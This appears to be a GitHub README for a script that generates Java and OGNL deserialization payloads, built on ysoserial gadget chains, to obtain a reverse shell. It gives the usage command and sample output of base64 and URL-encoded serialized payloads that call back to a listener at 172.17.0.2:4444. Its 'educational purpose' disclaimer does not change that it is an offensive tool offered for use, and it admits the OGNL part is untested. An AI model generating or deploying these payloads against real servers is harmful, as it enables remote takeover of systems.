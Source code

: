 # Java/OGNL Deserialization Reverse Shell Payload Generator
*This mini tool is for educational and research purpose only.*  
*I am not responsible for any improper use.*

The goal is to provide a different way to launch a reverse shell leveraging
unsecure payload deserialization.  
You need to identify the payload for the deserialization library from the 
[ysoserial page](https://github.com/frohoff/ysoserial#usage).  
  
Once done that you can launch simply the script :
```
$ java_drs.sh <ysoserial payload> <lhost> <lport> [url_enc_stream]
```

The script `java_drs.sh` will generate 1 Java and 2 OGNL payloads which 
hopefully will give you a reverse shell.
  
#### Note 1
**The output is supporting also OGNL format and can be urlencoded as a byte stream.**  
#### Note 2
You still need to insert the code generated into the PoC exploit code.  
For example you could need to add 'allowSstaticMethosAccess' or 'GET_MEMBER_ACCESS etc..  
This script was done to speedup the process of payload generation which can be 
complex and error likely.
#### Note 3
OGNL code hasn't been tested. Should work btw on vulnerable environments.

## Example
```
$ ./java_drs.sh CommonsCollections2 172.17.0.2 4444

=================================== JAVA CODE ===================================
String gdavi="rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjMAgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2h...
```
```
$ ./java_drs.sh CommonsCollections2 172.17.0.2 4444 url_enc_stream

=================================== JAVA CODE ===================================
%53%74%72%69%6e%67%20%67%64%61%76%69%3d%22%72%4f%30%41%42%58%4e%79%41%42%64%71%59%58%5a%68%4c%6e%56%30%61%57%77%75%55%48%4a%70%62%33%4a%70%64%48%6c%52%64%57%56%31%5a%5a%54%61%4d%4c%54%37%50%34%4b%78%41%77%41%43%53%51%41%45%63%32%6c%36%5a%55%77%41%43%6d%4e%76%62%58%42%68%63%6d%46%30%62%33%4a%30%...
```
